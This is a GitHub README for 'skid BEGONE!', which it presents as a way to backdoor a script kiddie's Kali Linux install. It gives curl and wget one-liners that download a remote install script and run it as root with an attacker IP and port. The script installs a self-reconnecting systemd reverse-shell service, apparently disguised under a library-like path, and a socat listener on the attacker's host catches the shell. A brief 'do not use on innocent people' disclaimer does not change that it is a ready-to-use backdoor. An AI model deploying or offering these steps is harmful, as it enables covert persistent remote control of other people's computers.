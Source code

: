 # skid BEGONE!

How to backdoor a script kiddie's Kali Linux install within seconds. Alternatively: A way for very lazy people to add a reverse shell on their own system.

Please do not use this on innocent people. If you were to use this on your best friend, you'll be the greatest asshole of all time.

## Using the reverse shell

### Prerequisites

- you must obtain a root shell of some sort
- Some distro with systemd and a mutable filesystem

### Now running it...

Note: If you want the backdoored machine to reboot, append `reboot` to the commandline arguments.

```sh
curl -sSL https://raw.githubusercontent.com/GermanBread/skid-begone/master/output/install.sh > /tmp/install.sh
bash /tmp/install.sh <IP> <PORT> [reboot]
```

alternatively with wget:

```sh
wget -qq https://raw.githubusercontent.com/GermanBread/skid-begone/master/output/install.sh -O /tmp/install.sh
bash /tmp/install.sh <IP> <PORT> [reboot]
```

By default the service will start alongside other system services. If the service can't connect to your server, it will wait for a few seconds and try to reconnect.

After you've got everything up and running, run this on your host: `socat file:`tty`,raw,echo=0 tcp-listen:<PORT>`. Make sure you have port forwarding enabled.

### Uninstalling

In a root shell, run:

```sh
/usr/lib/linuxd.so.1
```